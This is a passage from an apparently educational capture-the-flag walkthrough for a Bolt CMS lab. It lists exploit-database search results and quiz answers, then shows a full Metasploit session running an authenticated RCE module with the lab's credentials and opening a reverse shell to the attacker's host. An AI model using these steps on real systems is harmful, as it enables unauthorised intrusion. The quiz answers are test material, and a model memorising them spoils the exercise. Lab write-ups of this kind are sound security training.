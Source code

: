 ```
BoltWire 6.03 - Local File Inclusion                                               | php/webapps/48411.txt
Cannonbolt Portfolio Manager 1.0 - Multiple Vulnerabilities                        | php/webapps/21132.txt
CMS Bolt - Arbitrary File Upload (Metasploit)                                      | php/remote/38196.rb
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Answer: `48296`

# #6

**Metasploit recently added an exploit module for this vulnerability. What’s the full path for this exploit? (Ex: exploit/….)** **Note: If you can’t find the exploit module its most likely because your metasploit isn’t updated. Run `apt update` then `apt install metasploit-framework`**

Answer: `exploit/unix/webapp/bolt_authenticated_rce`

# #7

**Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit**

```
$ msfconsole -q
msf> use exploit/unix/webapp/bolt_authenticated_rce
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set rhost 10.10.13.119
rhost => 10.10.13.119
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.8.50.72:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "mpizfg".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file voagtvfn.php.
[+] Used token ea38f97e6971032c9ecad6346a to create xfdhvqmbfjo.php.
[*] Attempting to execute the payload via "/files/xfdhvqmbfjo.php?mpizfg=`payload`"
[*] Command shell session 1 opened (10.8.50.72:4444 -> 10.10.13.119:43148) at 2020-08-22 22:45:11 +0200
[!] No response, may have executed a blocking payload!
[+] Deleted file xfdhvqmbfjo.php.
[+] Reverted user profile back to original state.
```
